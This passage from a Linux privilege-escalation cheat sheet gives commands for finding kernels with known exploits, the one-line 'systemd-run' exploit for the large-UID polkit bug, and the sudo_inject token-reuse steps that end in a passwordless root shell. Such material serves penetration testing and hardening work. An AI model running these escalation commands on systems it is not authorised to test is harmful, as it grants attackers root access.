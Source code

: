 #### To extract all the vulnerable kernel versions from that web you can do:

`curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '`

{% hint style="warning" %}
`This technique is for kernels up to 3.9.6 and is not reliable for later versions of Linux kernel.`
{% endhint %}

#### Tools that could help searching for kernel exploits are:

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)\
[https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)\
[http://www.securitysift.com/download/linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py)

### <mark style="color:orange;">Big UID</mark> <a href="#big-uid" id="big-uid"></a>

Some Linux versions were affected by a bug that allow users with **UID > INT\_MAX** to escalate privileges. More info: [here](https://gitlab.freedesktop.org/polkit/polkit/issues/74), [here](https://github.com/mirchr/security-research/blob/master/vulnerabilities/CVE-2018-19788.sh) and [here](https://twitter.com/paragonsec/status/1071152249529884674). **Exploit it** using:&#x20;

**`systemd-run -t /bin/bash`**

### <mark style="color:orange;">sudo\_inject</mark>

#### this has requirements, doesn't work all the time.

#### clone the repository and run the script:

#### &#x20;[sudo\_inject](https://github.com/nongiach/sudo\_inject)&#x20;

#### requirements:

#### `$ sudo whatever`&#x20;

#### `[sudo] password for user:` `# Press+c since you don't have the password.`&#x20;

#### `# This creates an invalid sudo tokens.`&#x20;

#### `$ sh exploit.sh` `.... wait 1 seconds`&#x20;

#### `$ sudo -i # no password required :)`&#x20;
